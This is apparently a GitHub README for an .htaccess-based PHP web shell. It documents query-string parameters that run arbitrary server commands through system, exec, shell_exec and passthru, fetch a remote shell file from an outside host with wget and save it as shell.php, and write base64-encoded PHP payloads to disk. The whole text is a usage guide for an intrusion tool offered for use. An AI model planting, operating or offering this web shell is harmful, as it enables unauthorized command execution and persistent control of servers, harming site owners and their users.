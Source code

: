 # .htaccess Shell by JamvanHax0r

Usage for jhax0r_php.shell.htaccess
site.com/urfile.ht?c=command here

Usage for .htaccess Multifunctional Shell
- CMD Command<br>
.htaccess?cmd=command&function=function<br>
Exp:<br>
.htaccess?cmd=ls&function=system<br>
.htaccess?cmd=ls&function=exec<br>
.htaccess?cmd=ls&function=shell_exec<br>
.htaccess?cmd=ls&function=pasthru<br>
- WGET File<br>
.htaccess?file=nameoffile.php&link=ur website/shell.txt<br>
Exp:<br>
.htaccess?file=shell.php&link=http://mysite.com/shell.txt<br>
- Encode Base64 Command<br>
.htaccess?name=namafile.php&enc=encode base64 here<br>
Exp:<br>
.htaccess?name=namafile.php&enc=PD9waHAgc3lzdGVtKCdscyAtbGEnKTs/Pgo=<br>

For Base64 and Other Language En/Decoder<br>
> http://conzeptnote.com/en.php

Enjoy \🤘🏻/
